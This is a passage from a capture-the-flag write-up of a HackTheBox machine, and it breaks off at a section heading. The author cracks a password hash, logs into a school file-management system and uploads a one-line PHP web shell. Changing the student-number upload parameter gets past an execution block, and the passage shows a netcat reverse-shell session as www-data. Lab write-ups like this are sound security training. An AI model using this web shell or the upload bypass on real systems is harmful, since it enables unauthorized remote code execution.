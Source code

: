 And let's try cracking these hashes on [crackstation](https://crackstation.net/)

![cracked_hash](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/hash_crack_01.png?raw=true)

kelly Shane with the 31234 number is crackable and `autodestruction` as a result. let's login then! 

And we are in: 

![after_login_page](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/sfms_page.png?raw=true) 

Theres a upload and a download button.
## www-data shell
If we download the pdf file `Marksheet-finals.pdf` nothing appear interesting, let's try upload something, I'll upload the same pdf file, just to see where it might be saved.

After some manual enumeration, I see that the uploaded files are saved in  `/files/<student-number>/<filesname>` in my case I can retrive the file in `/files/31234/Marksheet-finals.pdf` 

We can be sure also by checking the [source-code](https://www.sourcecodester.com/php/14155/school-file-management-system.html) though.

![public-upload-path](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/public_upload_path.png?raw=true)

I'll upload a php reverse shell. with the following content:

```php
<?php
system($_REQUEST['cmd']);
?>
```

![forbidden-response](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/php_rev_forbidden01.png?raw=true)

we can see that the file is uploaded fine, but is blocked. I'll interecpt the upload form with burp to see if we can playaround with it params.

![burp-upload](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/burp_upload.png?raw=true)

What if change the student number, we might overide another directory and avoid the php execute block.

I've changed `31234` to `31235`

![student_number_change](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/student_number_change.png?raw=true)

![id_execute](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/id_execute.png?raw=true)

And we got a RCE!

I'll request a reverse shell after a nc listener:

![rev-shell](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/rev_payload.png?raw=true)


```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.11.165] 58730
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@c5d1cc2e5e93:/var/www/html/oldmanagement/files/31235$
```
## mark shell | user
